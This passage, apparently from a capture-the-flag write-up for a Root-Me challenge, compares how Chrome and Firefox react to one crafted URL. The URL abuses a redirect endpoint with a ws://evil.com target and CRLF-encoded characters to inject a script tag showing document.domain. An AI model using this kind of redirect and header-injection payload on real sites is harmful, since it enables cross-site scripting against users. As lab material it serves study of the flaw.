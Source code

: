 We can compare the behaviour between Chrome & Firefox with the following URL :

- [http://dyn-01.xmas.root-me.org:37781/api/redirect?url=ws://evil.com/?%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E](http://dyn-01.xmas.root-me.org:37781/api/redirect?url=ws://evil.com/?%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E)

- Chrome

![XSS](images/img6.png)


- Firefox

![XSS](images/img5.png)
